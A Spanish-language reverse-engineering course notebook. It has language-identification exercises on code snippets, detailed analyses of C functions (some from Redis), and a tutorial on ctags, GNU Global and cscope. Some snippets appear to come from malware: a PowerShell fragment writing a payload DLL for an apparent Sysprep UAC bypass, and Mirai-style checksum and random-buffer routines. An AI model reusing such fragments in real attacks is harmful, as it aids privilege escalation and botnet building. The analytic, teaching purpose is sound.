




genRedisInfoString
Cuando nos dan un código para que lo estudiemos, lo primero de todo es averiguar en que lenguaje está escrito. Ya sea ensamblador o un lenguaje de alto nivel, nuestro primer movimiento es observar los detalles del código para responder las siguientes preguntas: ¿Es un ensamblador o es código de alto nivel? ¿El sistema de tipos es dinámico o estático? ¿Es un lenguaje compilado o se trata de un lenguaje interpretado? Para ello, vamos a entrenar la vista con trozos (la expresión anglosajona sería “snippet”) de código sobre los que debéis averiguar en que lenguaje esta escrito e indicar como lo habéis averiguado. Es decir, no basta con decir: “Es Perl.”

func InMemLoads() (map[string]Image, error) {
donde:
(map[string]Image, error). Esto es algo muy típico de Go.ret := make(map[string]Image)
s, si, p := GetModuleLoadedOrder(0)
start := p
i := 1
donde:
short variable declaration con := es una característica distintiva de Go.make(map[string]Image)
donde:
make es una función predefinida de Go (builtin) que sirve específicamente para inicializar mapas, canales y slices.Image{uint64(s), uint64(si)}
donde:
uint64(...).return ret, nil
donde:
nil representa el valor cero para ciertos tipos de referencia (punteros, interfaces, mapas, slices, canales y funciones) y significa no hay valor / no apunta a nada.Este trozo está en Go (Golang) porque los tipos de retorno van después de los paréntesis para definir funciones, devuelve map[string]Image, inicializa mapas con make, utiliza la asignación corta := y las conversiones de tipo explícitas uint64(...), elementos característicos de Go y no presentes juntos en otros lenguajes de alto nivel y compilado.
(map[string]Image, error, uint64, etc.).
export default class Encoder {
donde:
export default es sintaxis de módulos ES6 (JS/TS), que forma parte de JavaScript.export default class Encoder junto con anotaciones de tipo (value: number, bytes: Uint8Array | Buffer | number[]). Esa mezcla de módulos ES6 + tipos estáticos apunta claramente a TypeScript.data: number[] = []
pushByte(value: number) {
pushInt(value: number, n: number, littleEndian=false) {
pushBytes(bytes: Uint8Array | Buffer | number[]) {
donde:
| (Uint8Array | Buffer | number[]) y de tipos primitivos en los parámetros (n: number, littleEndian=false) es sintaxis típica de TypeScript para tipado estático.let
const
b => this.data.push(b).
>>
&
donde:
let, const.b => this.data.push(b).>>, & 0xff.Este trozo usa JavaScript moderno, y la combinación “JS + anotaciones de tipo” es precisamente lo que demuestra el uso de TypeScript.
transpilado.

Option Explicit
donde:
Sub PDF2Workbook()
...
End Sub
donde:
Sub ... End Sub para procedimientos es propio de Visual Basic.Application.Run "PDFTables2Workbook", , True
donde:
Application.Run es típico en VBA dentro de Excel/Word.MsgBox PDFTablesPages, vbOKOnly + vbInformation, " PDFTables"
donde:
MsgBox y constantes como vbOKOnly, vbInformation, vbNullString son constantes predefinidas de VBA.ub PDFTables2Workbook(Optional ByVal InitialFolderFile As String = vbNullString, _
Optional ByVal AllowMultiSelect As Boolean = False)
donde:
Es Visual Basic for Applications (VBA) porque usa la directiva Option Explicit, define procedimientos con Sub ... End Sub, utiliza parámetros Optional ByVal ... As String/Boolean y constantes predefinidas como vbNullString y vbInformation, todo ello típico de Visual Basic for Applications en macros de Office.
Dim x As String o Dim y As Boolean, el tipo de esa variable queda fijado y el compilador comprueba compatibilidad de tipos.Option Explicit obliga a declarar las variables antes de usarlas.p-code y lo ejecuta el intérprete de VBA dentro de la aplicación. A efectos prácticos en esta clasificación se suele considerar interpretado (no se produce un binario nativo independiente), pero realmente es compilado a bytecode e interpretado por el runtime de Office.
long uv__idna_toascii(const char* s, const char* se, char* d, char* de) {
donde:
(long) y el uso de parámetros con tipos clásicos de C (const char*).const char* si;
const char* st;
unsigned c;
char* ds;
int rc;
donde:
(char*) y del tipo unsigned, muy típico en código C.while (si < se) {
st = si;
c = uv__utf8_decode1(&si, se);
if (c == -1u)
return UV_EINVAL;
}
donde:
(while, if) típica de la familia C.UV_EINVAL también son muy de C (constantes definidas con #define).Es C porque declara funciones y variables con tipos primitivos (long, unsigned, int) y punteros (const char*), usa un while con comparación de punteros, llama a funciones con paso de direcciones (&si) y no aparece ninguna característica propia de C++ como referencias, new, class o namespace.
long, int, char*, unsigned, …).
Out-File -FilePath $PayloadPath -InputObject $Payload -Encoding ascii
donde:
Out-File, Get-WmiObject, Write-Output, Write-Verbose son cmdlets típicos de PowerShell.$PayloadPath
$OSVersion = (Get-WmiObject -Class win32_OperatingSystem).BuildNumber
donde:
$ ($OSVersion, $PayloadPath, $env:temp) son características de PowerShell.switch($method)
{
"Sysprep"
{
...
}
}
donde:
if ($OSVersion -match "76")
donde:
[Byte[]] $temp = $DllBytes -split ' '
[System.IO.File]::WriteAllBytes($PathToDll, $temp)
donde:
Concluimos que este trozo está escrito en PowerShell.
[Byte[]]. Por defecto el sistema es dinámicamente tipado y resuelve tipos en tiempo de ejecución, no en compilación.Describe que hace la función.
Define si es función o procedimiento.
Define el tipo de la función.
¿Es o no es predicado?
¿Es o no es una función hoja?
¿Es o no es una función de sistema?
¿Es o no es una función con parámetros variables?
Describe la signatura de la función.
Define que devuelve la función.
Define si llama a otras funciones.
Define si modifica algún parámetro o solo lee los valores recibidos?.
Define si devuelve un objeto creado dentro de ella.
Define si modifica objetos globales.
Define el Sistema de tipos usados, son dinámicos, son estáticos.
Funciones que importa o exporta. ¿Cómo el programa importa/exporta funciones de una librería? Mediante
¿Es una función de usuario?
¿es una función que no cambia el estado del programa, es decir tiene transparencia referencial?
¿Es una función pura?
¿cual es el ámbito de la función (su visibilidad)?
Define las variables que usa, son globales? son locales? son estáticas?
Si muta o lee valores fuera de su ámbito. Es decir, valores no creados dentro de la función o que no forman parte de los parámetros de la función.
¿Posee o no parámetros constantes?
tiene runtime?
tiene símbolos de depuración?
estamos en un modulo? una dll?
Definir el ámbito: estamos en un modulo? una función?
Explicar estructuras de bifurcación, repetición, saltos...

int aeResizeSetSize(aeEventLoop *eventLoop, int setsize) {
int i;
if (setsize == eventLoop->setsize) return AE_OK;
if (eventLoop->maxfd >= setsize) return AE_ERR;
if (aeApiResize(eventLoop,setsize) == -1) return AE_ERR;
eventLoop->events = zrealloc(eventLoop->events,sizeof(aeFileEvent)*setsize);
eventLoop->fired = zrealloc(eventLoop->fired,sizeof(aeFiredEvent)*setsize);
eventLoop->setsize = setsize;
/* Make sure that if we created new slots, they are initialized with
* an AE_NONE mask. */
for (i = eventLoop->maxfd+1; i < setsize; i++)
eventLoop->events[i].mask = AE_NONE;
return AE_OK;
}
aeResizeSetSize.aeEventLoop.aeResizeSetSize se encarga de redimensionar la capacidad del bucle de eventos (eventLoop). Intenta expandir los arrays que almacenan los eventos registrados y los eventos disparados (events y fired) para acomodar un nuevo tamaño (setsize). Si la redimensión es exitosa, inicializa las nuevas ranuras (slots) creadas con una máscara vacía (AE_NONE).int) usado típicamente como código de error/éxito.
eventLoop), no en el cálculo de un valor.aeApiResize y zrealloc. Por lo tanto, no es una leaf function en el árbol de llamadas.Signatura: int aeResizeSetSize(aeEventLoop *eventLoop, int setsize)
Aridad: 2 parámetros → función binaria.
Parámetros:
eventLoop:
aeEventLoop *. Un puntero a una estructura aeEventLoop.const.setsize:
int. Un entero que representa el nuevo tamaño deseado.const, aunque en la práctica no se modifica.No hay palabra clave const en ninguno.
No tiene parámetros por defecto. El lenguaje C no soporta parámetros por defecto. Ambos deben ser provistos al llamar la función.
No es una función con parámetros variables. Tiene un número fijo de argumentos.
int. Entero con signo.AE_OK → Si la operación fue exitosa.AE_ERR → Si hubo un error. Por:
setsize demasiado pequeño maxfd >= setsize, oaeApiResize.aeApiResize(eventLoop, setsize).zrealloc(...) Una envoltura de realloc.eventLoop. Específicamente actualiza sus punteros internos (events, fired) y el campo setsize.heap (montículo) a través de zrealloc. Si la estructura eventLoop a la que apunta el puntero es global, entonces sí modifica un objeto global.eventLoop->events y eventLoop->fired, está mutando memoria que fue asignada fuera del ámbito de esta función específica.eventLoop.eventLoop, realiza asignación de memoria).int, aeEventLoop *, aeFileEvent, aeFiredEvent.static delante, así que por defecto tiene enlace externo, visible desde otros archivos si se declara en un header.aeApiResize(eventLoop, setsize) → parte dependiente del sistema/implementación del backend de eventos.zrealloc(...) → wrapper de realloc.ae.c se compila en una .dll o .so, se usaría enlace dinámico.zrealloc.maxfd >= setsize.aeApiResize.for (i = eventLoop->maxfd+1; i < setsize; i++): Inicializa las nuevas posiciones de events con AE_NONE.return múltiple, salidas tempranas en caso de error o no-cambio.
static int
args_cmp(struct args_entry *a1, struct args_entry *a2)
{
return (a1->flag - a2->flag);
}
args_cmp.args_cmp compara dos estructuras del tipo struct args_entry. Resta el valor del campo flag de la segunda estructura (a2) al de la primera (a1).
qsort o de búsqueda como bsearch.a1 es menor que a2.a1 es mayor que a2.int) sin generar efectos secundarios.Signatura: static int args_cmp(struct args_entry *a1, struct args_entry *a2);
Aridad: 2 parámetros → función binaria.
Parámetros:
a1:
struct args_entry *. Puntero a la primera estructura, LHS - Left Hand Side.const.a2:
struct args_entry *. Puntero a la segunda estructura, RHS - Right Hand Side.const.No hay const en los parámetros.
Parámetros por defecto: No.
No es varargs (variadic functions). Esta función no acepta un número variable de argumentos.
int. Entero con signo.a1->flag - a2->flag → un entero negativo, cero o positivo según la relación de orden entre ambos flag.heap/stack.¿Es una función pura?: Sí.
Transparencia referencial: Sí. Podemos reemplazar la llamada a la función por el resultado de la resta (si tuviéramos acceso a los punteros) y el programa funcionaría igual.
int, struct args_entry *.static restringe la visibilidad al archivo fuente actual..c, no se exporta el símbolo.static al inicio de la declaración restringe la visibilidad de esta función únicamente al archivo fuente (.c) actual. No es visible para otros módulos.if, for, etc.).return para finalizar.Desde la óptica de malware, esta función:

uint16_t checksum_generic(uint16_t *addr, uint32_t count)
{
register unsigned long sum = 0;
for (sum = 0; count > 1; count -= 2)
sum += *addr++;
if (count == 1)
sum += (char)*addr;
sum = (sum >> 16) + (sum & 0xFFFF);
sum += (sum >> 16);
return ~sum;
}
checksum_genericRFC 1071), estándar en protocolos como IP, TCP y UDP. Recorre un bloque de memoria apuntado por addr, suma palabras de 16 bits en una variable de mayor tamaño (unsigned long), maneja el posible byte sobrante y finalmente pliega la suma a 16 bits y le hace el complemento a uno. Devuelve ese checksum de 16 bits.uint16_t).Signatura: uint16_t checksum_generic(uint16_t *addr, uint32_t count);
Aridad: 2 parámetros → función binaria.
Parámetros:
addr:
uint16_t *. Puntero a enteros sin signo de 16 bits (el buffer de datos).const, aunque no se modifica la memoria apuntada.count:
uint32_t. Entero sin signo de 32 bits, que es la cantidad de bytes a procesar.count -= 2). Esta modificación sólo afecta al valor local dentro de la función.Parámetros constantes: No. Ninguno está declarado const, aunque semánticamente se usan como entrada solo.
Parámetros por defecto: No tiene.
Varargs: No hay parámetros Variables.
uint16_t. Entero sin signo de 16 bits., copias locales de addrycount`).uint16_t (datos), uint32_t (contador), unsigned long (acumulador).objet.checksum_generic, pero esto depende de las opciones de compilación, no del código fuente.Bifurcación:
if (count == 1) para tratar el caso en que queda un byte sobrante.Repetición:
for (sum = 0; count > 1; count -= 2). Lee de dos en dos bytes (una palabra de 16 bits) mientras queden al menos 2 bytes.Saltos / flujo:
(return ~sum;).break, continue, goto, ni excepciones.
void rand_str(char *str, int len) // Generate random buffer (not alphanumeric!) of length len
{
while (len > 0)
{
if (len >= 4)
{
*((uint32_t *)str) = rand_next();
str += sizeof (uint32_t);
len -= sizeof (uint32_t);
}
else if (len >= 2)
{
*((uint16_t *)str) = rand_next() & 0xFFFF;
str += sizeof (uint16_t);
len -= sizeof (uint16_t);
}
else
{
*str++ = rand_next() & 0xFF;
len--;
}
}
}
rand_str.str con len bytes de datos aleatorios.
not alphanumeric! confirma que genera datos binarios crudos, no texto legible. Los bytes pueden tener cualquier valor entre 0x00 y 0xFF.void.void. Un predicado suele devolver un booleano (verdadero/falso) evaluando una condición lógica.rand_next(). No es leaf function en el árbol de llamadas.Signatura: void rand_str(char *str, int len);
Aridad: 2 parámetros → función binaria.
Parámetros:
str (Entrada/Salida): char *.
const. Explícitamente se usa para escritura.cast a uint32_t *, si la dirección de str no es múltiplo de 4, podría provocar un fallo de segmentación (Bus Error), aunque x86 lo tolera con penalización de rendimiento.len (Entrada): int.
while.Parámetros const: No.
Valores por defecto: No.
No es varargs. No acepta un número variable de argumentos.
void.str, que queda rellenado con valores pseudo-aleatorios.heap o stack (el búfer str) que pertenece al ámbito del llamador ⇒ Tiene efectos secundarios claros, no es pura.heap o stack del llamador.rand_next() para obtener entropía.rand_next.str.char* a uint32_t* y uint16_t*.
static, la función es exportada y visible para cualquier otro archivo del proyecto que la enlace.rand_next(): generador de números pseudo-aleatorios.rand_next()), pero por lo demás, solo operaciones aritméticas / de punteros.Repetición: Un bucle while (len > 0) que va consumiendo longitud.
Bifurcación:
while, un if / else if / else:
len >= 4 → escribe 4 bytes de golpe (cast a uint32_t *).len >= 2 → escribe 2 bytes (uint16_t *).Saltos / flujo:
break, continue, goto.len llega a 0.
static const char *TextFormat(const char *text, ...)
{
#define MAX_FORMATTEXT_LENGTH 64
static char buffer[MAX_FORMATTEXT_LENGTH];
va_list args;
va_start(args, text);
vsprintf(buffer, text, args);
va_end(args);
return buffer;
}
TextFormat.printf) y devolverlo como una cadena utilizable.
text) y argumentos variables (...).vsprintf.buffer).static char buffer, el contenido devuelto es volátil: se sobrescribirá en la siguiente llamada a la función. No es persistente más allá de la siguiente invocación.const char *).va_start, vsprintf, va_end).... que indica que después de los parámetros fijos, la función puede recibir un número variable de argumentos.Signatura: static const char *TextFormat(const char *text, ...);
Aridad: función de aridad variable (varargs):
text).... Es la lista de argumentos variables.Parámetros por defecto: No.
Parámetros:
text (Fijo): const char *. Cadena de formato. Pasado por valor (el puntero), de solo lectura.... (Variables): Lista de argumentos gestionada mediante macros de stdarg.h. Se pasan a través de la pila (stack).const char *. Puntero a caracteres constantes.buffer.buffer está declarada dentro de la función, su almacenamiento es estático, vive durante toda la ejecución del programa y mantiene su valor entre llamadas hasta que es sobrescrito.vsprintf, con efectos secundarios de escritura en memoria.¿Función Pura?: No.
buffer).Seguridad de Hilos: No.
TextForma simultáneamente, se producirá una condición de carrera (race condition) corrompiendo el contenido del buffer.static en la declaración de la función (static const char *...) impide que esta función sea visible o enlazada desde otros archivos objeto (.o). Es privada para este módulo.va_start, va_end (macros/funciones de <stdarg.h>).vsprintf (función de la libc para formatear en un buffer con va_list).static, su símbolo es interno al módulo.va_list.vsprintf.va_list.return buffer;.vsprintf (en lugar de vsnprintf) en un búfer de tamaño fijo muy pequeño (MAX_FORMATTEXT_LENGTH = 64 bytes) → riesgo de desbordamiento de buffer si el resultado supera MAX_FORMATTEXT_LENGTH.vsprintf escribirá fuera de los límites del array buffer, corrompiendo la memoria adyacente: el stack o sección de datos estáticos, dependiendo del compilador.Una función representa un punto de entrada, posiblemente con parámetros, que puede necesitar acceder a variables globales, que puede manipular ciertas variables y que, finalmente, retorna o no un resultado. En más, puede retornar no solo en un punto sino en varios, dado que también puede tomar decisiones mediante las estructuras de control que hemos estudiado.
Tenemos el código de una función y vamos a analizarla. Necesitamos señalar:
void sentinelPropagateDownAfterPeriod(sentinelRedisInstance *master) {
dictIterator *di;
dictEntry *de;
int j;
dict *d[] = {master->slaves, master->sentinels, NULL};
for (j = 0; d[j]; j++) {
di = dictGetIterator(d[j]);
while((de = dictNext(di)) != NULL) {
sentinelRedisInstance *ri = dictGetVal(de);
ri->down_after_period = master->down_after_period;
}
dictReleaseIterator(di);
}
}
sentinelPropagateDownAfterPeriod.void → no devuelve ningún valor.sentinelRedisInstance llamado master. Este parámetro se usa para leer valores iniciales y para propagar su configuración a otros objetos.Dentro de la función se crean variables locales (su ámbito es todo el cuerpo de la función, salvo donde se indique):
dictIterator *di; Puntero a un iterador de diccionario. Se usa para recorrer los diccionarios de esclavos y sentinels.dictEntry *de; Puntero a una entrada de diccionario, usada en el while.int j; Entero usado como índice en el bucle for sobre el array d.dict *d[] = {master->slaves, master->sentinels, NULL}; Array local de punteros a dict.
d[0] apunta al diccionario de esclavos (master->slaves).d[1] apunta al diccionario de sentinels (master->sentinels).d[2] es NULL y actúa como marcador de final para el bucle for.Dentro del bucle while se crea otra variable local, cuyo ámbito se limita al cuerpo del while:
sentinelRedisInstance *ri = dictGetVal(de); Puntero a sentinelRedisInstance, representa cada esclavo o sentinel extraído del diccionario actual.master no se modifica, no se le asigna un nuevo valor ni se cambia su dirección.master:
En la inicialización del array d (línea 5):
master->slavesmaster->sentinelsEn el interior del while (línea 11):
master->down_after_period se usa como fuente del valor que se va a propagar.Por tanto:
master se usa como origen de información, nunca como destino de escritura directa.Aunque no vemos variables globales explícitas, sí se modifican estructuras que no son locales a la función:
ri->down_after_period = master->down_after_period;master->down_after_period, dato asociado al maestro.ri->down_after_period. ri apunta a instancias obtenidas de los diccionarios master->slaves y master->sentinels, por lo que la función está modificando el campo down_after_period de todas esas instancias (esclavos y sentinels) accesibles a través del parámetro master.Es decir, la función propaga el valor down_after_period del maestro al resto de instancias relacionadas.
ri.ri->down_after_period el valor leído del parámetro master->down_after_period. Aquí es donde ocurre la "propagación" del valor.Bucle for (líneas 7–14):
for (j = 0; d[j]; j++) {
...
}
j = 0.d[j] → el bucle continúa mientras el elemento actual del array d no sea NULL.j++ en cada iteración.array d. El NULL final actúa de condición de parada.Bucle while (líneas 9–12):
while((de = dictNext(di)) != NULL) {
...
}
dictNext(di) se asigna a de y se compara con NULL.dictNext devuelva una entrada válida de diccionario (de != NULL).d[j].No hay estructuras selectivas tipo if, switch en este fragmento.
dictGetIterator(d[j]) (línea 8)
(d[j]) y devuelve un iterador que se guarda en di.dictNext(di) (línea 9)
di y devuelve la siguiente entrada (dictEntry *) o NULL al terminar.dictGetVal(de) (línea 10)
sentinelRedisInstance *.dictReleaseIterator(di) (línea 13)
di al terminar de recorrer el diccionario.Estas funciones operan sobre estructuras que viven fuera de la función y representan el estado del programa, diccionarios de instancias.
return explícitos.} (línea 15), finaliza la ejecución.void.sentinelRedisInstance llamado master.dictIterator *didictEntry *deint jarray dict *d[] inicializado con:
master->slavesmaster->sentinelsNULL como terminadorwhile, variable local sentinelRedisInstance *ri.for que recorre los elementos del array d hasta NULL.for, se crea un iterador de diccionario con dictGetIterator.while que recorre todas las entradas de cada diccionario.while, se obtiene ri con dictGetVal(de) y se propaga:
ri->down_after_period = master->down_after_period;while, se libera el iterador con dictReleaseIterator(di).(}), sin valor de retorno (void).sudo apt install exuberant-ctags
ctags -R --languages=C --exclude=.git --exclude=deps .
donde:
-R → recorre subdirectorios.--languages=C → solo código C (Redis es C).--exclude=... → no indexar .git ni deps, código de terceros.. → directorio actual.Crea un archivo tags con todas las funciones, variables, etc.

sudo apt install global
gtags
donde:
.c, .h, etc.GTAGS, GRTAGS, GPATH.

Ver todas las referencias, es decir, los usos de una función main:
global -rx main
 donde:
donde:
-r → significa references. Buscará todas las referencias/usos de main en el código (llamadas, apariciones, etc.), usando la base GRTAGS.-x → hace que la salida se muestre en formato cross-reference.Instalamos cscope y generamos un fichero con todos los .c y .h del proyecto:
sudo apt install cscope
find . -name '*.[ch]' > cscope.files
Vemos el fichero scope.files:

Construimos la base de datos
cscope -b -q -k -i cscope.files
donde:
-b → sólo construye la base de datos, no abre la interfaz.-q → índice rápido (añade cscope.in.out y cscope.po.out).-k → ignora cabeceras del sistema (no mira /usr/include).-i cscope.files → usa la lista de archivos que acabamos de generar.

Entramos en el menú interactivo y mostramos dónde se usa un símbolo main:
cscope -d
donde:
-d → usa la base existente, no la reconstruye.

Como sabrás, son las funciones principales de entrada a los distintos ejecutables que existen. Haz una captura o copia la lista resultante.
Buscamos todas las definiciones de main y las guardamos en un fichero de texto:
global -x main > lista_main.txt
Resultado:
main 43 deps/hiredis/examples/example-ae.c int main (int argc, char **argv) {
main 48 deps/hiredis/examples/example-glib.c main (gint argc G_GNUC_UNUSED,
main 35 deps/hiredis/examples/example-ivykis.c int main (int argc, char **argv) {
main 35 deps/hiredis/examples/example-libev.c int main (int argc, char **argv) {
main 36 deps/hiredis/examples/example-libevent-ssl.c int main (int argc, char **argv) {
main 40 deps/hiredis/examples/example-libevent.c int main (int argc, char **argv) {
main 47 deps/hiredis/examples/example-libhv.c int main (int argc, char **argv) {
main 50 deps/hiredis/examples/example-libsdevent.c int main (int argc, char **argv) {
main 50 deps/hiredis/examples/example-libuv.c int main (int argc, char **argv) {
main 38 deps/hiredis/examples/example-macosx.c int main (int argc, char **argv) {
main 42 deps/hiredis/examples/example-poll.c int main (int argc, char **argv) {
main 106 deps/hiredis/examples/example-push.c int main(int argc, char **argv) {
main 36 deps/hiredis/examples/example-qt.cpp int main (int argc, char **argv) {
main 12 deps/hiredis/examples/example-ssl.c int main(int argc, char **argv) {
main 58 deps/hiredis/examples/example.c int main(int argc, char **argv) {
main 1289 deps/hiredis/sds.c int main(void) {
main 2266 deps/hiredis/test.c int main(int argc, char **argv) {
main 8 deps/jemalloc/msvc/test_threads/test_threads_main.cpp int main(int argc, char** argv) {
main 47 deps/jemalloc/test/analyze/prof_bias.c main(void) {
main 272 deps/jemalloc/test/analyze/rand.c main(void) {
main 32 deps/jemalloc/test/analyze/sizes.c main() {
main 63 deps/jemalloc/test/integration/MALLOCX_ARENA.c main(void) {
main 151 deps/jemalloc/test/integration/aligned_alloc.c main(void) {
main 116 deps/jemalloc/test/integration/allocated.c main(void) {
main 21 deps/jemalloc/test/integration/cpp/basic.cpp main() {
main 19 deps/jemalloc/test/integration/cpp/infallible_new_false.cpp main(void) {
main 63 deps/jemalloc/test/integration/cpp/infallible_new_true.cpp main(void) {
main 281 deps/jemalloc/test/integration/extent.c main(void) {
main 13 deps/jemalloc/test/integration/malloc.c main(void) {
main 267 deps/jemalloc/test/integration/mallocx.c main(void) {
main 56 deps/jemalloc/test/integration/overflow.c main(void) {
main 123 deps/jemalloc/test/integration/posix_memalign.c main(void) {
main 300 deps/jemalloc/test/integration/rallocx.c main(void) {
main 51 deps/jemalloc/test/integration/sdallocx.c main(void) {
main 77 deps/jemalloc/test/integration/slab_sizes.c main(void) {
main 305 deps/jemalloc/test/integration/smallocx.c main(void) {
main 83 deps/jemalloc/test/integration/thread_arena.c main(void) {
main 79 deps/jemalloc/test/integration/thread_tcache_enabled.c main(void) {
main 374 deps/jemalloc/test/integration/xallocx.c main(void) {
main 190 deps/jemalloc/test/stress/batch_alloc.c int main(void) {
main 72 deps/jemalloc/test/stress/fill_flush.c int main(void) {
main 66 deps/jemalloc/test/stress/hookbench.c main(void) {
main 29 deps/jemalloc/test/stress/large_microbench.c main(void) {
main 70 deps/jemalloc/test/stress/mallctl.c main(void) {
main 119 deps/jemalloc/test/stress/microbench.c main(void) {
main 1593 deps/jemalloc/test/unit/SFMT.c main(void) {
main 13 deps/jemalloc/test/unit/a0.c main(void) {
main 429 deps/jemalloc/test/unit/arena_decay.c main(void) {
main 355 deps/jemalloc/test/unit/arena_reset.c main(void) {
main 221 deps/jemalloc/test/unit/atomic.c main(void) {
main 113 deps/jemalloc/test/unit/background_thread.c main(void) {
main 92 deps/jemalloc/test/unit/background_thread_enable.c main(void) {
main 258 deps/jemalloc/test/unit/base.c main(void) {
main 182 deps/jemalloc/test/unit/batch_alloc.c main(void) {
main 149 deps/jemalloc/test/unit/binshard.c main(void) {
main 280 deps/jemalloc/test/unit/bit_util.c main(void) {
main 335 deps/jemalloc/test/unit/bitmap.c main(void) {
main 189 deps/jemalloc/test/unit/buf_writer.c main(void) {
main 381 deps/jemalloc/test/unit/cache_bin.c main(void) {
main 206 deps/jemalloc/test/unit/ckh.c main(void) {
main 76 deps/jemalloc/test/unit/counter.c main(void) {
main 274 deps/jemalloc/test/unit/decay.c main(void) {
main 26 deps/jemalloc/test/unit/div.c main(void) {
main 74 deps/jemalloc/test/unit/double_free.c main(void) {
main 220 deps/jemalloc/test/unit/edata_cache.c main(void) {
main 136 deps/jemalloc/test/unit/extent_quantize.c main(void) {
main 938 deps/jemalloc/test/unit/fb.c main(void) {
main 137 deps/jemalloc/test/unit/fork.c main(void) {
main 381 deps/jemalloc/test/unit/fxp.c main(void) {
main 168 deps/jemalloc/test/unit/hash.c main(void) {
main 574 deps/jemalloc/test/unit/hook.c main(void) {
main 441 deps/jemalloc/test/unit/hpa.c main(void) {
main 170 deps/jemalloc/test/unit/hpa_background_thread.c main(void) {
main 237 deps/jemalloc/test/unit/hpdata.c int main(void) {
main 103 deps/jemalloc/test/unit/huge.c main(void) {
main 274 deps/jemalloc/test/unit/inspect.c main(void) {
main 185 deps/jemalloc/test/unit/junk.c main(void) {
main 190 deps/jemalloc/test/unit/log.c main(void) {
main 1237 deps/jemalloc/test/unit/mallctl.c main(void) {
main 26 deps/jemalloc/test/unit/malloc_conf_2.c main(void) {
main 262 deps/jemalloc/test/unit/malloc_io.c main(void) {
main 382 deps/jemalloc/test/unit/math.c main(void) {
main 298 deps/jemalloc/test/unit/mpsc_queue.c main(void) {
main 84 deps/jemalloc/test/unit/mq.c main(void) {
main 53 deps/jemalloc/test/unit/mtx.c main(void) {
main 237 deps/jemalloc/test/unit/nstime.c main(void) {
